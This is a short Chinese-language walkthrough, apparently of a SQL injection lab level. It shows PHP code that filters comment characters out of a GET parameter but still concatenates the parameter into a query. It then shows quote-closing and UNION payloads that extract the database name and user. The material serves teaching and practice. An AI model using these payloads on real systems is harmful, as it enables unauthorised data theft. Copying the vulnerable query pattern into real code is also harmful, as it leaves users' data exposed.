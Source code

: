 查看部分源码，过滤注释的GET型，把 -- 与 # 替换成了空

```
$id=$_GET['id'];

//filter the comments out so as to comments should not work
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
..............
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

注释符被过滤了，我们就使用原始的闭合 sql 语句的方法，观察源码中 sql 语句使用 ' " ) 等等之类的，如下 payload 闭合成功

```
?id=1' and '1' = '1
```

闭合后的 sql 语句为

```
$sql="SELECT * FROM users WHERE id='1' and '1' = '1' LIMIT 0,1";
```

如下联合union注入

```
?id=-1' union select 1,database(),user(),4,5,'6
```

<img src="图片\Snipaste_2023-01-23_12-07-16.png" alt="Snipaste_2023-01-23_12-07-16" style="zoom:67%;" />
